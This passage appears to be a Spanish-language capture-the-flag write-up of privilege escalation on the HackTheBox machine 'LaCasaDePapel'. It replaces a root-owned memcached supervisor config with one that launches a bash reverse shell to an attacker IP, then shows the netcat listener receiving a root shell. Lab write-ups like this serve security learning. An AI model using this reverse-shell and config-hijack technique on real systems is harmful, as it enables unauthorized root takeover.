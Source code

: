 Al encontrado varias cosas relacionadas con `memecached`, debemos suponer que la escalada tiene que ver con eso.
El usuario `professor` tiene dos archivos relacionados con el memcached, pertenecientes a root.

```bash
lacasadepapel [~]$ ls /home/professor
memcached.ini  memcached.js  node_modules

lacasadepapel [~]$ ps faux | grep -vE "accountsservice|firefox|VBox|]|libexec|systemd|wpa_supplicant|containerd|NetworkManager|gunicorn"
 3151 memcache  0:25 /usr/bin/memcached -d -p 11211 -U 11211 -l 127.0.0.1 -m 64 -c 1024 -u memcached -P /var/run/memcached/memcached-11211.pid

lacasadepapel [~]$ ls -l
-rw-r--r-- 1 root root        88 Jan 29  2019 memcached.ini
-rw-r----- 1 root nobody     434 Jan 29  2019 memcached.js
drwxr-sr-x 9 root professor 4096 Oct  3  2022 node_modules

lacasadepapel [~]$ echo -e "test" > memcached.ini
-ash: cant create memcached.ini: Permission denied
```

No podemos editar directamente el archivo `memechached.ini` porque no tenemos permisos, pero si podemos editarlo de otra manera
```bash
lacasadepapel [~]$ mv memcached.ini /tmp/

lacasadepapel [~]$ ls
memcached.js  node_modules

lacasadepapel [~]$ echo -e "[program:memcached]\ncommand = bash -c 'bash -i >& /dev/tcp/10.10.14.22/443 0>&1'" > memcached.ini
```
Esperamos un poco y recibimos una shell

```bash
$: sudo nc -nlvp 443
[sudo] password for jessica:
listening on [any] 443 ...
iconnect to [10.10.14.22] from (UNKNOWN) [10.10.10.131] 55656
bash:cannot set terminal process group (31342): Not a tty
bash: no job control in this shell
bash-4.4# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
bash-4.4#
```